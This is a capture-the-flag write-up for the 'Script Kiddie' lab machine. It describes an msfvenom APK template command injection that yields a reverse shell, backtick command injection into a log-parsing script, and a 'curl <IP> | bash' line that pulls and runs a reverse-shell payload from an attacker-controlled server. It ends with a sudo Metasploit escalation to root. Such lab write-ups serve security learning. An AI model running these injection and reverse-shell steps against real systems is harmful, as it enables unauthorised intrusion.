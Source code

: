 # Script Kiddie

### objetive 
* user flag
* root flag

---

## user flag

### nmap 

![](./images/image1.png)  

### web

we are greeted with a hand-made webpage that let you execute some commands  
![](./images/image2.png)  

you can execute `searchsploit`, `nmap` and `msfvenom` and choose some of its values  
i try a little bit of command injection but i can't  

the "template file" on the "msfvenom" part caught my eye  
i google it, and while doing it, google auto-fills with "msfvenom template exploit"  
seems like in some versions of msfvenom, you cand use a malicious ".apk" as template file for android  
that allows you to execute commands  

i discover the module *exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection*  
this module creates an ".apk" that makes the target send a reverse shell to the selected IP and PORT  
we setup a **netcat listener** and choose "os=android" and our file as template file on the website  
![](./images/image3.png)  

we click "generate"... and voilá !! we have a reverse shell as "kid" and user.txt !!!

--- 

## root flag

it seems like */home/pwn/scanlosers.sh* is an interesting file  
![](./images/image4.png)  

it looks like its reading every line of */home/kid/logs/hackers*  
it's cutting the line in blank spaces and selecting the 3rd element to use it as IP in nmap  
with a little bit of try an error, looks like its executing right after modifying the file *hackers*  
i believe this has to be vulnerable to command injection  

### exploiting the script

first, as proof of concept, im gonna curl a netcat listener  
![](./images/image5.png)  

i use double quotes so the command "cut" doesn't apply to the payload, and backsticks to execute an additional command  
lets save the file...  
![](./images/image6.png)  
it works !!!!

so now you can get a reverse shell as *pwn*  
there are a lot of techniques to choose  
my favorite one goes as follows :
* create a bash script with a reverse shell payload directed to your machine on a chosen port named "index.html"
* start a http server on the same location as the script
* start a netcat listener on the chosen port
* inject the following command : `curl <IP> | bash`
* you should have a reverse shell

### from "pwn" to "root"  

this one is pretty trivial  
![](./images/image7.png)  

after using Metasploit with sudo privileges, we can directly execute system commands on the metasploit shell  
![](./images/image8.png)  
